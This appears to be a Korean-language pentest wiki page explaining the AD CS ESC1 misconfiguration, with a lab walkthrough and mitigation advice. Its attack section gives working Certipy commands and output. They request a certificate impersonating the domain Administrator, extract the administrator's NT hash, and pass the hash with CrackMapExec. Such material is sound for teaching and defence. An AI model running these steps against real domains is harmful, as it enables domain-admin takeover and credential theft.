

# ESC1

> 이 페이지와 하위 페이지들에 있는 ADCS와 관련된 개념 및 공격 방식은 모두 SpecterOps 사의 Will Schroeder 분과 Lee Christensen 분이 2021년에 작성하신 "[Ceritfied Pre-Owned](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)" 라는 백서를 기반으로 만들어졌습니다. 더 자세하게 알아보고 싶으신 분들은 레퍼런스 섹션의 백서를 참고해주시기 바랍니다.

### 개념&#x20;

ADCS의 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 라는  설정이  존재한다. 이 설정이 되어있는 취약  인증서 양식은 공격자 인증서 서명 요청을 보낼 때 자신이 원하는 유저를 주체로 특정해 보낼 수 있다. 예를 들자면,&#x20;

1. Choi -> CA: 저 인증서 서명 요청 드립니다. 근데 SAN (Subject Alternative Name) 특성은 choi가 아니라 `Administrator@choi.local` 이라는 도메인 관리자로 해주세요.&#x20;
2. CA -> Choi: 네, 인증서 발급하겠습니다. 요청대로 SAN에는 도메인 관리자 유저 이름을 넣어서 발급해드릴게요.&#x20;
3. Choi: 감사합니다. - 일반 도메인 유저에서 도메인 관리자로 권한 상승 성공.&#x20;

어이가 없을 정도로 간단하고 위험한 설정이지만, 실제로 존재하는 설정이다.&#x20;

### 전제 조건&#x20;

1. `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 설정 활성화&#x20;
2. Manager Approval 설정 비활성화&#x20;
3. Authorized Signature 설정 비활성화&#x20;
4. 해당 인증서 양식에 공격자의 유저가 인증서 발급 권한 존재 &#x20;
5. CA 서버가 공격자의 유저에게 인증서 발급 권한을 허용

### 실습&#x20;

#### ESC 1 정보 수집&#x20;

Certipy 를 통해 정보 수집을 한 뒤, ESC1 에서 취약한 인증서 양식을 찾았다. Certipy 의 출력을 살펴본다.&#x20;

```
Certificate Templates
  0
    Template Name                       : macUsers
    Certificate Authorities             : choi-DC01-CA
    [ ... ]
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    [ ... ]
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Authorized Signatures Required      : 0
    Requires Manager Approval           : False
    [ ... ]
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CHOI.LOCAL\Domain Admins
                                          CHOI.LOCAL\Domain Users
                                          CHOI.LOCAL\Enterprise Admins
    [ ... ]
    [!] Vulnerabilities
      ESC1                              : 'CHOI.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

많은 정보가 있지만, ESC1 을 사용하는데 있어 필요한 전제 조건들 4개를 살펴보자.&#x20;

1. `Enrollee Supplies Subject: True - CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`  설정이 활성화 되어 있다.&#x20;
2. Requires Manager Approval: False  - 비활성화 되어 있다.&#x20;
3. Authorized Signature: 0  - 비활성화 되어 있다.&#x20;
4. Enrollment Rights - `Choi.local\Domain Users` - CA 서버와 인증서 양식에 공격자의 유저 발급 권한 존재. 공격자 뿐만 아니라 도메인 유저 전체가 이 인증서 양식을 통해 도메인 관리자 인증서를 발급 받을 수 있는 상태다.&#x20;

#### 공격&#x20;

1. Certipy 를 이용해 원하는 타겟 유저의 이름을 SAN 으로 지정해 인증서를 발급 받는다.&#x20;

```
$ certipy req -u <user> -p <pass> -ca <CA> -target <CA-FQDN> -template <취약한-양식-이름> -upn <타겟-유저> 

예) $ certipy req -u low@choi.local -p 'Password123!' -ca choi-DC01-CA -target dc01.choi.local -template macUsers -upn Administrator@choi.local -dns dc01.choi.local 
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully requested certificate
[*] Got certificate with multiple identifications
    UPN: 'Administrator@choi.local'
    DNS Host Name: 'dc01.choi.local'
[*] Saved certificate and private key to 'administrator_dc01.pfx'
```

2\. 발급 받은 인증서는 유저 인증에 사용할 수 있다. 도메인 관리자의 NT 해시를 획득한다.&#x20;

```
$ certipy auth -pfx <#1의 인증서 파일 이름> -dc-ip <DC-IP> 

예) $ certipy auth -pfx administrator_dc01.pfx -dc-ip 192.168.40.150                         
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@choi.local'
    [1] DNS Host Name: 'dc01.choi.local'
> 0
[*] Using principal: administrator@choi.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@choi.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

3\. 도메인 관리자의 NT 해시를 이용해 인증한다.&#x20;

```
$ cme smb <DC-IP> -u Administrator -H <NThash> -d <domain>
```


### 대응 방안&#x20;

* ESC1의 근본적인 문제는 특정 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 플래그가 활성화 되어 있다는 것이다. 이를 해결한다.&#x20;
* 프로덕션 서버에서는 충분한 테스트를 거친 뒤 설정을 해제한다.&#x20;
* CA 서버 > `certtmpl.msc` > 인증서 양식 오른쪽 클릭 > Properties > `Subject Name` 탭 > Supply in Request 설정 해제&#x20;
* `Supply in Request` 가 꼭 필요하다면 Properties > Issuance Requirements > CA Certificate Manager Approval 을 설정해 인증서 관리자 계정이 허락을 해야 인증서가 발급되도록 바꾼다.&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption><p>CT-FLAG-ENROLLEE-SUPPLIES-SUBJECT 를 비활성화 한다</p></figcaption></figure>

<figure><figcaption><p>Certificate Manager Approval 을 활성화 한다</p></figcaption></figure>


### 레퍼런스&#x20;





